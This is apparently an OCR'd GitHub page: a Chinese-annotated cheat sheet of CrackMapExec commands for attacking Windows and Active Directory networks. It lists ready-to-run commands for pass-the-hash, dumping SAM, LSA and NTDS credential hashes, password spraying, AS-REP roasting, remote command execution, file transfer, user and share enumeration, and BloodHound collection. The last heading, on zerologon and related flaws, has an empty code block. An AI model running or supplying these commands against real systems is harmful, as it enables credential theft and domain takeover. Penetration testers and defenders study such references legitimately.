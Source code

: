``` shell
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```
- 檢查已登入用戶
``` shell
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --lusers
crackmapexec smb 192.168.216.144 -u 'test' -p 'ppt1234!' --loggedon-users
```
- 使用本機登入
```
crackmapexec smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth
```
- 使用者列舉
```
crackmapexec smb 192.168.216.144 -u 'test' -p 'ppt1234!' --users
```
- 上船文件
```
cme smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt   
```
- 下載文件
```
cme smb 172.16.251.152 -u user -p pass --get-file \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
```
- Pass The Hash
``` shell
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH  
crackmapexec smb <target(s)> -u username -H NTHASH
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4ff0a6e8d9f4a61100e51' --local-auth
```
- list hash
```
cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐sam
crackmapexec wimri 192.168.216.144 -u 'administrator' -p 'pass1234!'  --sam/--lsa
```
- 抓取ntds
```
crackmapexec smb 192.168.216.144 -u 'administrator' -p 'pass1234!' --ntds
```
- 列舉群組
```
cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐local‐groups
```
- Password Spary
``` shell
crackmapexec 10.0.2.0/24 -u ‘admin’ -p ‘P@ssw0rd'
```
- 檢查Samba訊息
``` shell
crackmapexec smb ip_list.txt -u joe -p Flowers1 --shares
```
### AD專區
- asproasting
```
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```
```
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```
```
cme ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```
- 收集bloodhound
```
crackmapexec ldap <ip> -u user -p pass --bloodhound --ns ip --collection All
```
- 掃描zerologo、petitpotam、nopac漏洞
```
```